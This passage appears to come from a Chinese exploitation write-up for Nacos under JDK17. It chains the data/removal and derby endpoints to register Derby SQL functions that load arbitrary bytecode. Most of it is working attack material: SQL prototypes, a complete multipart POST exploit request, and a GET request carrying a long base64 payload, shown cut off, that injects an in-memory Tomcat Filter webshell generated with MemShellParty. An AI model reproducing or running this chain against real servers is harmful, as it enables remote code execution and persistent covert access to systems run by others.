另外，因为注入器本身在往 Tomcat 注册内存马时，内部还需要把 Filter Shell 的字节码 define 进内存，如果注入器自己直接反射 `ClassLoader.defineClass` 同样会被 JDK17 拦住。所以生成 payload 时选择使用 **MemShellParty** 并勾选 `byPassJavaModule`，并且将注入器类名设为 `org.springframework.boot.loader.xxxx`。

因此，JDK17 下先通过 `/v1/cs/ops/data/removal` 竞争注册如下类型与函数

```sql
create type C external name 'java.lang.Class' language java
create type L external name 'java.lang.ClassLoader' language java
create type P external name 'java.security.ProtectionDomain' language java
create function d(s varchar(32672)) returns varchar(32672) for bit data external name 'org.springframework.util.Base64Utils.decodeFromString' language java parameter style java
create function g() returns L external name 'java.lang.ClassLoader.getSystemClassLoader' language java parameter style java
create function n(s varchar(2000)) returns C external name 'java.lang.Class.forName' language java parameter style java
create function f(a varchar(32672), b varchar(32672) for bit data, x L, y P, z C) returns C external name 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String,byte[],java.lang.ClassLoader,java.security.ProtectionDomain,java.lang.Class)' language java parameter style java
```

注册完成后，同样直接通过 `/v1/cs/ops/derby` 发送 GET 请求无竞争加载字节码，执行的 SQL 语句原型如下

```sql
select count(*) as b,f('org.springframework.boot.loader.xxxx',d('MemShellParty生成的字节码'),g(),null,n('org.springframework.boot.loader.Launcher')) as a from config_info /*limit*/

select count(*) as b, n('org.springframework.boot.loader.xxxx') as a from config_info /*limit*/
```

实测如下

```http
POST /nacos/v1/cs/ops/data/removal HTTP/1.1
Host: 127.0.0.1:8849
Sec-Fetch-Mode: navigate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Sec-Fetch-Site: same-origin
sec-ch-ua-mobile: ?0
If-Modified-Since: Wed, 03 Apr 2024 06:25:07 GMT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "macOS"
Sec-Fetch-User: ?1
Cookie: lang=zh-CN; flavor_uv=1; grafana_session=0819560c9c23861c1372c45faded2e95; XSRF-TOKEN=60076405-84b6-42e3-b669-aaada2d50fc8; JSESSIONID=A346858F7C26752E1DC85C37A3276B40; java-chains-token-key=admin_token
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGQWXb3jKyayCIGQ
Content-Length: 141{{repeat(88)}}

------WebKitFormBoundarydGQWXb3jKyayCIGQ
Content-Disposition: form-data; name="file"; filename="x.sql"

create type c external name 'java.lang.Class' language java
create type l external name 'java.lang.ClassLoader' language java
create type p external name 'java.security.ProtectionDomain' language java
create function d(s varchar(32672)) returns varchar(32672) for bit data external name 'org.springframework.util.Base64Utils.decodeFromString' language java parameter style java
create function g() returns l external name 'java.lang.ClassLoader.getSystemClassLoader' language java parameter style java
create function n(s varchar(2000)) returns c external name 'java.lang.Class.forName' language java parameter style java
create function f(a varchar(32672), b varchar(32672) for bit data, x l, y p, z c) returns c external name 'org.springframework.cglib.core.ReflectUtils.defineClass(java.lang.String,byte[],java.lang.ClassLoader,java.security.ProtectionDomain,java.lang.Class)' language java parameter style java
------WebKitFormBoundarydGQWXb3jKyayCIGQ--
```




```sql
select count(*) as b,f('org.springframework.boot.loader.xxxx',d('MemShellParty生成的字节码'),g(),null,n('org.springframework.boot.loader.Launcher')) as a from config_info /*limit*/

select count(*) as b, n('org.springframework.boot.loader.xxxx') as a from config_info /*limit*/
```


```http
GET /nacos/v1/cs/ops/derby?sql=select+count%28%2A%29+as+b%2Cf%28%27org.springframework.boot.loader.TimeZoneSerializer9c2b6d1b8f654d5d83941e25cfc457d6%27%2Cd%28%27yv66vgAAADIBwwEAUm9yZy9zcHJpbmdmcmFtZXdvcmsvYm9vdC9sb2FkZXIvVGltZVpvbmVTZXJpYWxpemVyOWMyYjZkMWI4ZjY1NGQ1ZDgzOTQxZTI1Y2ZjNDU3ZDYHAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQADbXNnAQASTGphdmEvbGFuZy9TdHJpbmc7AQACb2sBAAFaAQANZ2V0VXJsUGF0dGVybgEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQACLyoIAAsBAAxnZXRDbGFzc05hbWUBAC5vcmcuYXBhY2hlLmh0dHAud2ViLmhhbmRsZXJzLnNjc1pKLk9BdXRoRmlsdGVyCAAOAQAPZ2V0QmFzZTY0U3RyaW5nAQucSDRzSUFBQUFBQUFBQUtWWGVWeGJ4eEgrRmdsV0NCRmorVlI4dHFtTlFJRE1JWXpCU1EweXFYRTQzRUJOTWIwZVlrR3loYVM4OTJTZ2Qzb2t2ZS9MclhzM3BXMTZZTklLQ0lsRHI2Uk42cVpwMGp1OTR6YTk3L3lSWDMrbXMrODlDVW1JNUk5aW85WHN6T3grTS92TjdITC9sVHN2QW1qQUV3eDFjWFhjcnlTVVVGajR3N3FlOEUrS0VYOVlpWTFHaGFyNXRaQjI2cmkvcnoycGg2K1BSSFdoY2pDR0xhZVZzNG8vcXNURy9jR29vbW5kY1dWVXFtd01tNlZxeXE4SjlXeFU2UDYwVXpHRDdZeVlabkIzci9yMjYyb2tOdDdHVU5FWWFoWUhSbHFVUTZINlFFTkRrK0pBS1lNOVFVczdVRWF1RTZNQmhyMzE5Y0dqemUwdEJ3TXRoMXFhNnBzYm00T05COXVETFEzTjdRM3RCNW82Z2c1Y3hlQU1Dd21tVjVrUURDWHRvWkJJNkE1c1pDZ3pGU2VWYUpJMHBicjhPVkxmME9qQVpnYWVVS2FqRkFYRHh1Njg0QWpmNXZ5NXc5WFgwWFRKNFVnc29sOUgrTHhWSjEzdzRHb243TmpCY0xVMzM4SE1VSnRwdGt1YTdXWndqTWJOL0RBTW14NnJpZXMzeHh2RlRVbWg2VzNyYWJWRVBLYUpmTFc1YWpDc1JHSzBKY1B1Z3Q2ZFV6STNrWGlNNDVrTW13ekVrYmkvcXk5TDhheTB3Z2hsSUt6R0o1V1JxT0RZejdBdmQxV0RQTWZvSXhjNmg1ZGgvOU9abW5Gd1ZMdFFBVWNwaWxCRFp6UXU5R1BHb2RFSzNyWEVxVm83NVVJZC9HV293Z0VYTnBrTE5SQy84dTA0bWlqOW9YaE1weFJwRER0eURpeXNxUDBTZkN3azJxcE91ZENNZzA0RTBHSWlHbFFqeHBGdDgxcjdVODVPMEtLV2dpQzBvcTBNUGh4Mm9jeUVRQlJ4a2VjSlJTVldrbzBMUjB5VTdhUVlVVFRSM0hSVWhPS2p4TXV0aGVJYzduQWhpS05PV3FxVGdVMFJYNzNESGFlTStlZmdtSnp2Y21FcnRzbk5ic2lKbDQ2TU1zalJ3MUFlU3FxcWlPbm1GTEhhbTUxQWM1YlE5K0dFRTcxNExwVTVZUTVTanNTVW5rVmlCaytPWXphL1hlakhnUFIrbnNSRUZHZHlHY0s2eG9GTW40OGhhWFdLWWVkVGNaL2pCUXk3bnBML0hDOGlWT3ZXQU1kTHN2aWRkVlljSXd4Rnd4MGNvOVlXMHFCaldoZnRxcXBNOXlYMVJGS25ReERLQk1lWUUrT3l1RGZrUmNJUm9lWVNFNU5kTVUxWGlEUDVtZTBiT1MxQ09nVjhCbEVuVG1NaTU0Qk1MVWVjK2drRnJFUTFtYkcxN3BLSU4wRjFJZ0d5Y09oeGt4ejVtMlhxSUltejBuYlNoWEtUaE5SOFM3WGtpR2E1YmZWMmRSVjBmQmxlTHRuK0NvYmlTWm1sUERocFRsSW5leFZlN1VRSU4xUDRlanlUTldyY1hvT1pyOFhyWk1wZW4rRjRaeXpOOFZ4Q1pMYStGVytRakhpajNISTljRytXNE41QzRNYWlTUzNzd3R0azF3M2g3VFFUaXNZMTRjSTd6WmwzMFZFUmdUdFZOYTcyQ0UxVHhtbnJLbTkzZ1haV3VKTzhCKytWYU43SGNPVC82ODR5VjN2eGdUSW9PSmZUVDdNYTdZY3NVdFFsOVVpMHJzUElsd01mcGtvZmkxdVgyYjZuYVlIcHV2b29QaVpwOW5HNkMyWDhSdEpWQno1SmwrL3dHbk9PMjh5MjFpUDBjSHcwRTJ2T0xtdmRzdmRWeFZpVUdPbzNWeUFBTS9pTUJQQlppblY0TFpFNWJtZll2cDQ3eHhlb0VDS3hzL0V6RlBLaEFvVlFZTW1DMWZZbHpEcnhSVnlnWXBGOVRNSW1RR3RiRjVuZWdTL0xXdmtLdzFYQ1NOZUFWVjBPekJOZHRXU3NiaUtpaGVvNjJ2czcwelNtakM3S2tqVUVCNWJNYkp0dG5IUjNrMjVVbUxwNzFxNlJzZnNxVllkcDE1RWNHNU16WDZmc0ZPcVk1cHVqYkZTTVJXTENDbWNiR2VhV2NUcWtlM0dmZkdWOGl4NG43WjM5RHR4dkVXL0tIMUtuRTNyY0g0d2t3cklEZm9mV0pPQ3J6YXRxWFpybCtkSXUzOFdEVGx6Qzl4ajI1QmhvQ1JHaU1naXBRcjlCVFBlVHhQRjlGN2paaVI0eGowUjJETTJGSDhvMkVjQ1B6R2dLZHhvUGZ1TEV3L2dwOVJiNTVKS21YYWFsSnVoV2kralRmdHJITUgwVVA1ZVFma0dWSTU5WE1TVktKeUh6S1Z2U3IvQnJxZnhOL25XUTd2R1B5Y3N0YzZ0bjkzOEx4dStjdUl6ZlUyZEptRzVLNk15QXFzaTBiVi8xeTFyU2NQc0QvdWhFSmY0a3UrR2tYSUJhMDU3OGxtTGRWL0hZV0dUY2VMVHhVV290YXB6NmFUbk55dFBSMDIvWC9zaDRUTkdUS24yM0I0MldXbTVBNlZFU0E3S2ZFUmN6clVYRE15amxkbEFXNko5VG5nRjkvd2M5LzR0SWNzb25Ta1oya1Z5ZUpXOGd1U0pMZHBPOEtVdmVRaks5T2tqK3B5RnZKNW5KZHpCOS9vdG1OdExJYUN5dW5zZk9DNUEvVXIzTFVydkpwWWpHa21yZlBQYWs5WHNOd0tSblhRVGJTWE5QK0paUjFXcXZXWWF2dGRoam4wUHRJdXFMaU9JUHJncHphRXpoMERuYzVTbGV4TFVNclNWUzkreEZkQlJoQWRlMzhtb1B0NlZ3dkpYUG9mcys3RmhDMGRBQ2Jremg1RHdHUFR5RjRUdlFQWVBJRXNhSDVoRnVkWkJaQ3JIV1VrK3B4NUdDUGtpajNScTVPYVl3TmVncG1jTkxiUlVWS2J3eWhkZDRTcXFsOFMxa2VId0JiekptU0MvVmJ6V0VGTjRoUDk0OWcwMnQzTU1IcFFPZngvdEplV0VHRGdKZE1sanJxMW5FQjIyNFFGa0k0Q0U4UXRSeDRURThUaVBEdnlrZjllQXI5Smh3Y0JSeHZKRGp4UndLUnhXSGo0TUtUUUJQUXRDanBuTERrNEFjN2ZpUFRETXRlQTMyb1ZUZXMyYUtjUnZORnRPb3NXNzNSeGJ3aVo0YTk2ZllNajZkd3VkcWFQeDhDbk85dFNtazNBdjJ1M0Y2eU9ZVy9hU3FKU0V4Wkt1bTczUExDRkRlbW5yZGR4cnVNbWQybWFtVSs2NXNGNDg5ejhjM1M5RVU0VnA2Q3ArMzR0cU9vaFVTS1NoNjBRWEFPTTcvRndjNFhTVVN2cVR3ZVFKUEQyRUwvTzBXK09sVjhCY0xnbCsya0FUV2doZjBuL0FmN0hWL0xSLy9ON0s5OHZBYmJsWUlSd2hTVGdoQkdVSkFIb1FaUW1OdUNFeStmSzBRdHRDY0xJSFNhcC9OZDNFZTM1NDFxc0FzcDIrU0tUM3ZyV3E1bWFLMTAraHpQN0NBaDNwcmQ1NER0OC9BWHJ5RWg0Zm04SU1VZnV4K1lCNC9TK0dYdGI0VWZqdmJ5MmFONnF1RU40UHZNR3dyVk5aMmd6cUM0RjJTR0MrdFNIQlpjL1RsRWx1aHlyWlprMFlrQkluZVJCazROZ0lFTkxNZXEyWjZsM0I1cUhZZWovZjRLSTEvcHN6L2hZcjJYbkNTL3VxeHo3WVdaNFRpZTR6UzMwMS9Bb0YrZmNab0lxeUM3UXIyYzF6bW9EL1RBaXRrWm9Lb3BEa0pvL0lLa1lEYW1LeUdSL0UzSzVIbFJzWm9FYk9OcExOOURmMytQZE9QeW8xZE1rYjRIK1dWUW9nSUVRQUEIABEBAAY8aW5pdD4BAAMoKVYBABNqYXZhL2xhbmcvVGhyb3dhYmxlBwAVAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAFwEAD3N1bi5taXNjLlVuc2FmZQgAGQEAD2phdmEvbGFuZy9DbGFzcwcAGwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DAAdAB4KABwAHwEACXRoZVVuc2FmZQgAIQEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMACMAJAoAHAAlAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQHACcBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgwAKQAqCgAoACsBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwALQAuCgAoAC8BAAlnZXRNb2R1bGUIADEBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAAzADQKABwANQEAE1tMamF2YS9sYW5nL09iamVjdDsHADcBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QHADkBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMADsAPAoAOgA9AQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DAA%2FAEAKAAQAQQEAEW9iamVjdEZpZWxkT2Zmc2V0CABDAQAGbW9kdWxlCABFAQAOamF2YS9sYW5nL0xvbmcHAEcBAA9nZXRBbmRTZXRPYmplY3QIAEkBAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsMAEsATAkASABNDAATABQKAAQATwwABwAICQACAFEBAApnZXRDb250ZXh0AQARKClMamF2YS91dGlsL1NldDsMAFMAVAoAAgBVAQAXamF2YS9sYW5nL1N0cmluZ0J1aWxkZXIHAFcKAFgATwwABQAGCQACAFoBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsMAFwAXQoAWABeAQAPY29udGV4dCBlcnJvcjogCABgAQAPZ2V0RXJyb3JNZXNzYWdlAQApKExqYXZhL2xhbmcvVGhyb3dhYmxlOylMamF2YS9sYW5nL1N0cmluZzsMAGIAYwoAAgBkAQAIdG9TdHJpbmcMAGYACgoAWABnAQANamF2YS91dGlsL1NldAcAaQEAB2lzRW1wdHkBAAMoKVoMAGsAbAsAagBtAQARY29udGV4dCBub3QgZm91bmQIAG8BAAhpdGVyYXRvcgEAFigpTGphdmEvdXRpbC9JdGVyYXRvcjsMAHEAcgsAagBzAQASamF2YS91dGlsL0l0ZXJhdG9yBwB1AQAHaGFzTmV4dAwAdwBsCwB2AHgBAARuZXh0AQAUKClMamF2YS9sYW5nL09iamVjdDsMAHoAewsAdgB8AQAKY29udGV4dDogWwgAfgEADmdldENvbnRleHRSb290AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL1N0cmluZzsMAIAAgQoAAgCCAQACXSAIAIQBAAhnZXRTaGVsbAwAhgAuCgACAIcBAAZpbmplY3QBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMAIkAigoAAgCLAQABWwgAjQwACQAKCgACAI8BAAhdIHJlYWR5CggAkQEAB2ZhaWxlZCAIAJMBAAEKCACVAQAQamF2YS9sYW5nL1N5c3RlbQcAlwEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwwAmQCaCQCYAJsBACUoKUxqYXZhL3V0aWwvU2V0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQARamF2YS91dGlsL0hhc2hTZXQHAJ4KAJ8ATwEAEGphdmEvbGFuZy9UaHJlYWQHAKEBABFnZXRBbGxTdGFja1RyYWNlcwEAESgpTGphdmEvdXRpbC9NYXA7DACjAKQKAKIApQEADWphdmEvdXRpbC9NYXAHAKcBAAZrZXlTZXQMAKkAVAsAqACqAQAHZ2V0TmFtZQwArAAKCgCiAK0BABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCACvAQAQamF2YS9sYW5nL1N0cmluZwcAsQEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaDACzALQKALIAtQEABnRhcmdldAgAtwEADWdldEZpZWxkVmFsdWUBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwwAuQC6CgACALsBAAZ0aGlzJDAIAL0BAAhjaGlsZHJlbggAvwEABnZhbHVlcwEAGCgpTGphdmEvdXRpbC9Db2xsZWN0aW9uOwwAwQDCCwCoAMMBABRqYXZhL3V0aWwvQ29sbGVjdGlvbgcAxQsAxgBzAQAGYWRkQWxsAQAZKExqYXZhL3V0aWwvQ29sbGVjdGlvbjspWgwAyADJCwBqAMoBAAZQb2xsZXIIAMwBAANhanAIAM4BAAdoYW5kbGVyCADQAQAFcHJvdG8IANIBAAdhZGFwdGVyCADUAQAJY29ubmVjdG9yCADWAQAHc2VydmljZQgA2AEABmVuZ2luZQgA2gEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsMANwA3QoAogDeAQANZ2V0U2ltcGxlTmFtZQwA4AAKCgAcAOEBABMuK1dlYmFwcENsYXNzTG9hZGVyCADjAQAHbWF0Y2hlcwEAFShMamF2YS9sYW5nL1N0cmluZzspWgwA5QDmCgCyAOcBAAlyZXNvdXJjZXMIAOkKABwArQEABFJvb3QIAOwBAAhlbmRzV2l0aAwA7gDmCgCyAO8BAAdjb250ZXh0CADxAQADYWRkAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDADzAPQLAGoA9QEAEWdldFNlcnZsZXRDb250ZXh0CAD3AQAMaW52b2tlTWV0aG9kAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAD5APoKAAIA%2BwEADmdldENvbnRleHRQYXRoCAD9CgCyAG0BAAMoLykIAQABAAEoCAECAQABKQgBBAEAFGdldFdlYkFwcENsYXNzTG9hZGVyAQArKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEADmdldENsYXNzTG9hZGVyCAEIAQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwEKAQAJZ2V0TG9hZGVyCAEMDAEGAQcKAAIBDgwADQAKCgACARABAAlsb2FkQ2xhc3MMARIAHgoBCwETDAAQAAoKAAIBFQEADGRlY29kZUJhc2U2NAEAFihMamF2YS9sYW5nL1N0cmluZzspW0IMARcBGAoAAgEZAQAOZ3ppcERlY29tcHJlc3MBAAYoW0IpW0IMARsBHAoAAgEdAQALZGVmaW5lQ2xhc3MIAR8BAAJbQgcBIQEAEWphdmEvbGFuZy9JbnRlZ2VyBwEjCQEkAE0BABFnZXREZWNsYXJlZE1ldGhvZAwBJgA0CgAcAScKADoAKwEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7DAEqASsKASQBLAEAC25ld0luc3RhbmNlDAEuAHsKABwBLwEADWZpbmRGaWx0ZXJEZWYIATEMAQgA3QoAHAEzAQAvb3JnLmFwYWNoZS50b21jYXQudXRpbC5kZXNjcmlwdG9yLndlYi5GaWx0ZXJEZWYIATUBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlck1hcAgBNwEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlckRlZggBOQEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlck1hcAgBOwEADXNldEZpbHRlck5hbWUIAT0BAA5zZXRGaWx0ZXJDbGFzcwgBPwEADGFkZEZpbHRlckRlZggBQQEADWFkZFVSTFBhdHRlcm4IAUMBAA1zZXRVUkxQYXR0ZXJuCAFFAQAOZmluZEZpbHRlck1hcHMIAUcBABdqYXZhL2xhbmcvcmVmbGVjdC9BcnJheQcBSQEAJihMamF2YS9sYW5nL0NsYXNzO0kpTGphdmEvbGFuZy9PYmplY3Q7DAEuAUsKAUoBTAEACWFycmF5Y29weQEAKihMamF2YS9sYW5nL09iamVjdDtJTGphdmEvbGFuZy9PYmplY3Q7SUkpVgwBTgFPCgCYAVABAApmaWx0ZXJNYXBzCAFSAQANc2V0RmllbGRWYWx1ZQEAOShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL09iamVjdDspVgwBVAFVCgACAVYBAAVhcnJheQgBWAEAMG9yZy5hcGFjaGUuY2F0YWxpbmEuY29yZS5BcHBsaWNhdGlvbkZpbHRlckNvbmZpZwgBWgEAF2dldERlY2xhcmVkQ29uc3RydWN0b3JzAQAiKClbTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwwBXAFdCgAcAV4BAB1qYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcgcBYAoBYQArAQAnKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAEuAWMKAWEBZAEADWZpbHRlckNvbmZpZ3MIAWYBAANwdXQBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwBaAFpCwCoAWoBABBqYXZhLnV0aWwuQmFzZTY0CAFsAQAKZ2V0RGVjb2RlcggBbgEABmRlY29kZQgBcAEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAXIBAAxkZWNvZGVCdWZmZXIIAXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uBwF2AQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAXgKAXkATwEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwF7AQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBfQEABShbQilWDAATAX8KAX4BgAEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAEwGCCgF8AYMBAARyZWFkAQAFKFtCKUkMAYUBhgoBfAGHAQAFd3JpdGUBAAcoW0JJSSlWDAGJAYoKAXkBiwEAC3RvQnl0ZUFycmF5AQAEKClbQgwBjQGOCgF5AY8BAAVjbG9zZQwBkQAUCgF8AZIKAXkBkgEAYChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczwqPjtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24HAZYBAA1nZXRTdXBlcmNsYXNzDAGYAEAKABwBmQEAEk1ldGhvZCBub3QgZm91bmQ6IAgBmwEAFShMamF2YS9sYW5nL1N0cmluZzspVgwAEwGdCgGXAZ4BABJbTGphdmEvbGFuZy9DbGFzczsHAaABAAhnZXRGaWVsZAEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBpAEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwGmAQASIEZpZWxkIG5vdCBmb3VuZDogCAGoCgGlAZ4MAaIBowoAAgGrAQADc2V0DAGtAIoKACgBrgEAE2phdmEvaW8vUHJpbnRTdHJlYW0HAbABABkoTGphdmEvaW8vT3V0cHV0U3RyZWFtOylWDAATAbIKAbEBswEAD3ByaW50U3RhY2tUcmFjZQEAGChMamF2YS9pby9QcmludFN0cmVhbTspVgwBtQG2CgAWAbcKAXkAZwoBsQGSAQAIPGNsaW5pdD4BAAAIAbwKAAIATwEABENvZGUBAA1TdGFja01hcFRhYmxlAQAKRXhjZXB0aW9ucwEACVNpZ25hdHVyZQAhAAIABAAAAAIACgAFAAYAAAAKAAcACAAAABIAAQAJAAoAAQG%2FAAAADwABAAEAAAADEgywAAAAAAABAA0ACgABAb8AAAAPAAEAAQAAAAMSD7AAAAAAAAEAEAAKAAEBvwAAAA8AAQABAAAAAxISsAAAAAAAAQATABQAAQG%2FAAACIQAHAAgAAAGjEhq4ACBMKxIitgAmTSwEtgAsLAG2ADBOEhwSMgO9ABy2ADYSBAHAADi2AD46BC22AEISRAS9ABxZAxIoU7YANjoFGQUtBL0ABFkDEhwSRrYAJlO2AD7AAEg6Bi22AEISSga9ABxZAxIEU1kEsgBOU1kFEgRTtgA2OgcZBy0GvQAEWQMSAlNZBBkGU1kFGQRTtgA%2BV6cABEynAAMAKrcAULIAUpkABLEBTCq2AFZMpwAkTbsAWFm3AFmyAFu2AF8SYbYAXyostwBltgBftgBoswBbK8YADCu5AG4BAJkAHrsAWFm3AFmyAFu2AF8ScLYAX7YAaLMAW6cAnyu5AHQBAE0suQB5AQCZAI8suQB9AQBOuwBYWbcAWbIAW7YAXxJ%2FtgBfKi23AIO2AF8ShbYAX7YAaLMAWyottwCIOgQqLRkEtgCMuwBYWbcAWbIAW7YAXxKOtgBfKrYAkLYAXxKStgBftgBoswBbpwArOgS7AFhZtwBZsgBbtgBfEpS2AF8qGQS3AGW2AF8SlrYAX7YAaLMAW6f%2FbgSzAFKyAJyyAFtXV7EAAwCpAK4AsQAWAREBaAFrABYAAACUAJcAGAABAcAAAABUAAz3AJcHABj8AAAHAAQC%2FwALAAIHAAIHAAQAAP8ACQACBwACBwBqAAEHABYgDBr8AAYHAHb%2FAGkABAcAAgcAagcAdgcABAABBwAW%2FAAnBwAE%2BAACAAEAUwBUAAMBvwAAAhUAAgAMAAABgbsAn1m3AKBMuACmuQCrAQBNLLkAdAEATi25AHkBAJkBYS25AH0BAMAAojoEGQS2AK46BRkFErC2ALaZAFoZBBK4uAC8Er64ALwSwLgAvMAAqDoGGQa5AMQBALkAxwEAOgcZB7kAeQEAmQApGQe5AH0BADoIGQgSwLgAvMAAqDoJKxkJuQDEAQC5AMsCAFen%2F9OnAOsZBRLNtgC2mQCPGQUSz7YAtpoAhRkEEri4ALwSvrgAvBLRuAC8EtO4ALw6BhkGEtW4ALwS17gAvBLZuAC8Etu4ALw6BxkHEsC4ALzAAKg6CBkIuQDEAQC5AMcBADoJGQm5AHkBAJkAKRkJuQB9AQA6ChkKEsC4ALzAAKg6CysZC7kAxAEAuQDLAgBXp%2F%2FTpwBaOganAFUZBLYA38YATRkEtgDftgBCtgDiOgYZBhLktgDomQA2GQS2AN8S6rgAvDoHGQfGACUZB7YAQrYA6xLttgDwmQAVGQcS8rgAvDoIKxkIuQD2AgBXp%2F6cK7AAAQCoASIBJQAYAAEBwAAAAHoACv4AGAcAnwcAagcAdv8ASAAIBwACBwCfBwBqBwB2BwCiBwCyBwCoBwB2AAAv%2BQAC%2FwBdAAoHAAIHAJ8HAGoHAHYHAKIHALIHAAQHAAQHAKgHAHYAAC%2F%2FAAIABgcAAgcAnwcAagcAdgcAogcAsgABBwAYBPsAUfkAAgHBAAAABAABABgBwgAAAAIAnQACAIAAgQABAb8AAACZAAQABAAAAGIBTSsS%2BAEBuAD8Ev4BAbgA%2FMAAsk2nAAROK7YAQrYA604sxwAFLbAstgD%2FmQAYuwBYWbcAWS22AF8TAQG2AF%2B2AGiwuwBYWbcAWS22AF8TAQO2AF8stgBfEwEFtgBftgBosAABAAIAFQAYABgAAQHAAAAAHQAE%2FwAYAAMHAAIHAAQHALIAAQcAGAD8AA0HALIbAAIBBgEHAAIBvwAAAEUABAAEAAAAJSsTAQkBAbgA%2FMABC7BNKxMBDQEBuAD8Ti0TAQkBAbgA%2FMABC7AAAQAAAAwADQAYAAEBwAAAAAYAAU0HABgBwQAAAAQAAQAYAAIAhgAuAAIBvwAAAM0ABgAHAAAAmCortwEPTQFOLCq2ARG2ARROpwBbOgQqtgEWuAEauAEeOgUTAQsTASAGvQAcWQMTASJTWQSyASVTWQWyASVTtgEoOgYZBgS2ASkZBiwGvQAEWQMZBVNZBAO4AS1TWQUZBb64AS1TtgA%2BwAAcTrsAWFm3AFmyAFu2AF8SjrYAXyy2AEK2AOu2AF8ShbYAX7YAaLMAWy22ATCwAAEACAARABQAGAABAcAAAAAbAAL%2FABQABAcAAgcABAcBCwcAHAABBwAY%2BwBXAcEAAAAEAAEAGAABAIkAigACAb8AAAJpAAcADQAAAcwrEwEyBL0AHFkDErJTBL0ABFkDKrYBEVO4APzGAASxK7YAQrYBNDoGGQYTATa2ARS2ATBOGQYTATi2ARQ6BRkFtgEwOgSnACI6BxkGEwE6tgEUtgEwThkGEwE8tgEUOgUZBbYBMDoELRMBPgS9ABxZAxKyUwS9AARZAyq2ARFTuAD8Vy0TAUAEv